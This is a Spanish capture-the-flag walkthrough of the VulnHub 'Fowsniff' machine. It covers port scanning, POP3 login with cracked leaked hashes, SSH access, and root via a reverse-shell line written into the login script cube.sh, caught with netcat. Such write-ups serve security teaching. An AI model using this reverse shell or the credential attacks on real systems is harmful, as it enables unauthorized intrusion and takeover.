




Fowsniff
Plataforma: VulnHub · Dificultad: Fácil · Fecha: Agosto 2026
Reconocimiento
sudo arp-scan -I eth0 --localnet --ignoredupsIP de la máquina víctima:
192.168.1.102Una vez obtenida la IP, vamos a realizar un escaneo para determinar los puertos abiertos.
nmap -p- --open 192.168.1.102 -sS -Pn -n --min-rate 5000 -vvv -oG allPortsEl output del escaneo lo guardamos en formato grepeable en el archivo allPorts y con la utilidad extractPorts lo extraemos. Este es el resultado:
extractPorts allPorts
[*] Extracting information...
[*] IP Address: 192.168.43.6
[*] Open ports: 22,80,110,143
[*] Ports copied to clipboardLos puertos que fueron encontrados abiertos:
- 22 →
SSH - 80 →
HTTP - 110 →
POP3 - 143 →
IMAP
Hacktricks
POP3 permite que un cliente se autentique en un buzón de correo, enumere y recupere mensajes, marque opcionalmente mensajes para su eliminación y confirme dichas eliminaciones tras un QUIT exitoso. La descarga no elimina inherentemente todos los mensajes; la configuración del cliente determina si se emite DELE.
IMAP le permite acceder a su correo electrónico desde cualquier lugar y desde cualquier dispositivo. Cuando lee un mensaje de correo electrónico mediante IMAP, en realidad no lo descarga ni almacena en el equipo; en su lugar, lo está leyendo en el servicio de correo electrónico.
Esta es una lista de comandos que se pueden usar dentro de POP3:
POP commands:
USER uid Log in as "uid"
PASS password Substitute "password" with your actual password
STAT List number of messages, total mailbox size
LIST List messages and sizes
RETR n Show message n
DELE n Mark message n for deletion
RSET Undo any changes
QUIT Logout (expunges messages if no RSET)
TOP msg n Show first n lines of message number msg
CAPA Get capabilitiesEnumeración
Algo interesante es que el servicio de correo está expuesto. Podemos intentar conectarnos a este servicio usando el siguiente comando:
telnet 192.168.1.102 110
o
nc -nv 192.168.1.102 110Una vez conectados, hay una serie de comandos que podemos usar para listar mensajes y contenido en el servicio:
list -> listar
user test -> para logearnos como dicho usuario
pass password -> para ingresar la password de dicho usuarioPero no se nos permite ejecutar dichos comandos de listar porque no tenemos los permisos necesarios, por lo que necesitamos credenciales para logearnos en el servicio y así poder listar el contenido de algún usuario.
Vamos a ingresar a la web en busca de cualquier información o posible vulnerabilidad.

Una vez dentro de la web, vemos un mensaje de la empresa explicando que la empresa sufrió un hackeo y que el atacante robó información de los empleados, como sus correos y passwords. También indican que están mejorando la seguridad y que, además, el atacante se hizo con la cuenta de Twitter @fowsniff de la empresa, desde donde puede difundir esa información, por lo que piden estar al tanto de la situación.

Si realizamos fuzzing de directorios en la web, encontramos varios archivos y directorios, pero el más interesante es security.txt, donde el atacante deja un mensaje refiriéndose a las malas prácticas de seguridad de la empresa:
WHAT SECURITY?
''~``
( o o )
+-----.oooO--(_)--Oooo.------+
| |
| FOWSNIFF |
| got |
| PWN3D!!! |
| |
| .oooO |
| ( ) Oooo. |
+---------\ (----( )-------+
\_) ) /
(_/
Fowsniff Corp got pwn3d by B1gN1nj4!
No one is safe from my 1337 skillz!Además de esto, no se encontró nada más interesante, por lo que fui a Twitter en busca de cualquier información filtrada por el atacante que se hizo con la cuenta.
Una vez dentro de la cuenta podemos ver muchos mensajes de burla hacia la empresa y una credencial que dice ser del admin:
stone@fowsniff:92b8a29ef1183192e3d35187e0cfabdEse hash intenté crackearlo en hashes.com, pero no fue posible, por lo que seguí buscando en la cuenta de Twitter y el atacante compartió un Pastebin ya obsoleto. Posteriormente, se encontró una cuenta de GitHub de Fowsniff donde se compartieron las credenciales robadas de la empresa:
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7eTodas esas passwords las ingresamos en hashes.com y fueron crackeadas con éxito:
0e9588cb62f4b6f27e33d449e2ba0b3b:carp4ever
19f5af754c31f1e2651edde9250d69bb:skyler22
1dc352435fecca338acfd4be10984009:apples01
4d6e42f56e127803285a0a7649b5ab11:orlando12
8a28a94a588a95b80163709ab4313aa4:mailcall
90dc16d47114aa13671c697fd506cf26:scoobydoo2
ae1644dac5b77c0cf51e0d26ad6d7e56:bilbo101
f7fd98d380735e859f8b2ffbbede5a7e:07011972Con los usuarios y las credenciales probé en el servicio de correo hasta que hallé una válida ;):
telnet 192.168.1.102 110
seina:scoobydoo2user seina
pass soobydoo2Una vez logeado podemos listar los mensajes de este usuario con el comando:
listTenemos 2 correos identificados como 1 y 2.
Vamos a ver el contenido de cada uno de estos correos usando:
retr 1
retr 2📧 1
El correo número 1, en resumen, es el correo del admin explicando la situación de la empresa debido a la brecha de seguridad y recomendando el cambio de password a cada usuario. La parte más importante es que da a conocer la nueva password para conectarse por SSH al servidor. Además, dice que cada usuario debe cambiar la password inmediatamente, por lo que podemos suponer que habrá usuarios que ya hayan cambiado la password. La password es: S1ck3nBluff+secureshell.
📧 2
El correo número 2 se trata de un usuario de la empresa cuyas credenciales del correo también fueron filtradas, pero realizó ya el cambio de las credenciales de correo. Se comunica con Seina para saber su situación actual y si sabe lo ocurrido con la empresa, ya que está de vacaciones (motivo por el que no cambió su password de correo). Este usuario, baksteen, si usamos su usuario y la password de SSH nos podemos conectar al servidor.
Escalada de Privilegios
Una vez dentro, ahora vamos a buscar la manera de escalar privilegios.
En este caso yo probé de 2 maneras y las dos son funcionales. Vamos por la primera y muy sencilla:
Kernel
La versión del kernel para esa versión de Ubuntu 16.04 tiene CVE, el cual no lo menciono para que hagan la búsqueda. Usando ese exploit y ejecutándolo en la máquina te da una shell como root. Así de fácil.
Ahora la segunda. Si usamos el comando:
idVemos que nuestro usuario baksteen pertenece a un grupo llamado users, un grupo diferente de lo habitual.
Si buscamos archivos donde como grupo pertenecen al grupo users:
find / -group users -type f 2>/dev/nullEncontramos un archivo curioso:
/opt/cube/cube.sh
ls -l /opt/cube/cube.shVemos que los usuarios que pertenecen a este grupo tienen todos los permisos. Si vemos el contenido del archivo, vemos que es el panel de bienvenida que nos aparece cuando ingresamos por primera vez en la máquina, es decir, cuando nos logeamos.
El propietario del archivo es el usuario actual baksteen, pero, si te percatas, el script solo muestra ese panel de administración. O sea, algún script, tarea o servicio programado debe encargarse de hacer la llamada a este script para mostrar un panel una vez nos logueamos, a no ser que este contenido esté duplicado en ese otro script.
Pero si usan otro script para llamar al panel, entonces, si modificamos el contenido de este script para lanzar una Reverse Shell cuando el usuario que llame a este script desde otro proceso no sea mi usuario actual y sea root, por ejemplo, el que ejecuta el script, entonces, una vez haga el llamado, se ejecutará como root la reverse shell y se enviará al atacante.
O sea, en resumen:

Dentro de cube.sh:
bash -c "bash -i >& /dev/tcp/ip/puerto 0>&1"Una vez guardado el cambio salimos de sesión y entramos otra vez por SSH.
Pero antes tenemos que ponernos en escucha de nuestro lado:
nc -lvnp 446ssh baksteen@192.168.1.102 -p 22De esta manera obtenemos una shell como root y listo.